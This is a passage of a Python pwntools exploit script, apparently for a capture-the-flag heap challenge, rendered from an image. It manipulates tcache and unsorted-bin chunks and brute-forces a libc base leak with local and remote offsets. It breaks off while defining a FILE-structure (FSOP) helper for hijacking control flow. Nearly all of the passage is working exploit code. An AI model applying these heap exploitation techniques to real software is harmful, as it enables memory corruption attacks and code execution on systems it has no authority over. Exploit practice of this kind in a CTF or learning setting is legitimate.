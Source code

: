 ```python

    # Empty tcache
    create(0, 0, 1000, b"A"*0x10)
    create(1, 1, 1000, b"B"*0x10)
    create(2, 2, 1000, b"C"*0x10)
    create(3, 3, 1000, b"D"*0x10)
    create(4, 4, 1000, b"E"*0x10)
    create(5, 5, 1000, b"F"*0x10)
    create(6, 6, 1000, b"G"*0x10)


    # Empty fastbin for unsorted bin allocation
    create(10, 10, 1024, b"I"*0x8)
    # Allocate from unsorted bin
    # create(11, -1, 0x30, b"A")
    p.sendlineafter(b">", b"1")
    p.sendlineafter(b"Index: ", str(11).encode())
    p.sendlineafter(b"Key: ", str(-1).encode())
    p.recvuntil(b"Error")
    pause()
    ## Now chunks[11] forged with main_arena, guess libc_base
    ## try edit
    libc_base = 0
    for i in range(0x100):
        # context.log_level = "debug"
        p.sendlineafter(b">", b"2")
        p.sendlineafter(b"Index: ", str(11).encode())
        p.sendlineafter(b"Key: ", str(0x7f00+i).encode())
        status =  p.recvn(0x4)
        print(i, hex(0x7f00+i),status)
        if b'Data' != status:
            # pause()
            continue
        status += p.recvuntil(b")")
        print(status)
        # b'Data(-817553664): Edit completed\n'
        # Extract number from Data() output
        data_str = status.decode().split("Data(")[1].split(")")[0]
        data_num = int(data_str)
        if data_num < 0:
            log.info("FAIL")
            exit(0)
            data_num += 0x100000000
        print(f"Found number: {hex(data_num)}")
        # p.sendafter(b"Data", b"A"*0x10)
        print(f"Write start: {hex((0x7f00+i)*0x100000000 + data_num)}")
        if not REMOTE:
            libc_base = (0x7f00+i)*0x100000000 + data_num - 0x203f00
        else:
            libc_base = (0x7f00+i)*0x100000000 + data_num - 0x203b20 - 0x175a0
        
        break
    
    print(f"libc_base: {hex(libc_base)}")
    if libc_base == 0:
        log.info("FAIL")
        return

    def FSOP_struct(flags = 0, _IO_read_ptr = 0, _IO_read_end = 0, _IO_read_base = 0,\
    _IO_write_base = 0, _IO_write_ptr = 0, _IO_write_end = 0, _IO_buf_base = 0, _IO_buf_end = 0,\
    _IO_save_base = 0, _IO_backup_base = 0, _IO_save_end = 0, _markers= 0, _chain = 0, _fileno = 0,\
    _flags2 = 0, _old_offset = 0, _cur_column = 0, _vtable_offset = 0, _shortbuf = 0, lock = 0,\
```